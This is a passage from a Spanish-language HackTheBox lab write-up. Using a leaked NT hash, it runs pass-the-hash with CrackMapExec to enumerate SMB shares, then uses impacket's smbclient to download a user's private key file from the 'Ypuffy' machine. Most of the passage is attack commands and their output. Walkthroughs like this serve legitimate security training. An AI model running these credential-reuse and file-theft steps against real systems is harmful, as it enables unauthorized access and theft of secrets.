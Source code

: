
_Wow wow, slow down bro._

Tenemos ahora:

- El DC, hackthebox.htb
- Dos OU, group y passwd
- Dos UID, bob8791 (5001.5001) y alice1978 (5000.5000)
- Un NT Password from OU passwd, alice1978 / 0B186E661BBDBDCF6047784DE8B9FD8B

# SMB

Usemos estas credenciales ahora para enumerar el servicio de SMB:

``` text
(CrackMapExec-wTENtMaY) xbytemx@laptop:~/git/CrackMapExec$ crackmapexec smb -u alice1978 -H 0B186E661BBDBDCF6047784DE8B9FD8B -d ypuff 10.10.10.107
SMB         10.10.10.107    445    YPUFFY           [*] Windows 6.1 (name:YPUFFY) (domain:ypuff) (signing:False) (SMBv1:True)
SMB         10.10.10.107    445    YPUFFY           [+] ypuff\alice1978 0B186E661BBDBDCF6047784DE8B9FD8B

(CrackMapExec-wTENtMaY) xbytemx@laptop:~/git/CrackMapExec$ crackmapexec smb -u alice1978 -H 0B186E661BBDBDCF6047784DE8B9FD8B -d ypuff 10.10.10.107 --shares
SMB         10.10.10.107    445    YPUFFY           [*] Windows 6.1 (name:YPUFFY) (domain:ypuff) (signing:False) (SMBv1:True)
SMB         10.10.10.107    445    YPUFFY           [+] ypuff\alice1978 0B186E661BBDBDCF6047784DE8B9FD8B
SMB         10.10.10.107    445    YPUFFY           [+] Enumerated shares
SMB         10.10.10.107    445    YPUFFY           Share           Permissions     Remark
SMB         10.10.10.107    445    YPUFFY           -----           -----------     ------
SMB         10.10.10.107    445    YPUFFY           alice           READ,WRITE      Alice's Windows Directory
SMB         10.10.10.107    445    YPUFFY           IPC$                            IPC Service (Samba Server)
```

Vientos, ahora tenemos el acceso al directorio de ALICE, analicemos su contenido:

``` text
(impacket-a2aNp99x) xbytemx@laptop:~/git/impacket/examples$ python smbclient.py -hashes 00000000000000000000000000000000:0B186E661BBDBD
CF6047784DE8B9FD8B YPUFF/alice1978@10.10.10.107
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Type help for list of commands
# info
Version Major: 6
Version Minor: 1
Server Name: YPUFFY
Server Comment: Samba Server
Server UserPath: C:\
Simultaneous Users: 4294967295
# use alice
# ls
drw-rw-rw-          0  Wed Jan  2 19:09:09 2019 .
drw-rw-rw-          0  Tue Jul 31 22:16:50 2018 ..
-rw-rw-rw-       1460  Mon Jul 16 20:38:51 2018 my_private_key.ppk
# get my_private_key.ppk
# exit
```

